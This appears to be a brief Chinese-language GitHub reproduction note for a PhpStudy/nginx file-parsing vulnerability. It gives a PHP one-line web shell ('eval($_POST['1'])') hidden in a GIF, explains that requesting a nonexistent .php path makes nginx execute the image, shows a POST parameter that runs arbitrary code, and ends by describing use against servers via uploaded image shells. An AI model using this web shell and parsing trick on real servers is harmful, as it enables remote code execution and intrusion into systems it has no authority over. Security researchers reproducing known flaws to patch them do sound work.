



## 使用存在漏洞的PhpStudy版本搭建本地服务器

## 复现步骤
### 在根目录放入含有恶意php代码的图片test.gif
```
php代码例如：<?php eval($_POST['1']);?>
```
### 尝试访问一个不存在*.php文件，nginx会自动解析上层目录文件test.gif为可执行代码

### 向图片内的恶意代码传递参数,攻击成功
```
1=echo "<script>alert('hello world')</script>";
```

### 应用：上传图片马，故意访问不存在的php文件导致服务器解码执行上层文件，并执行任意代码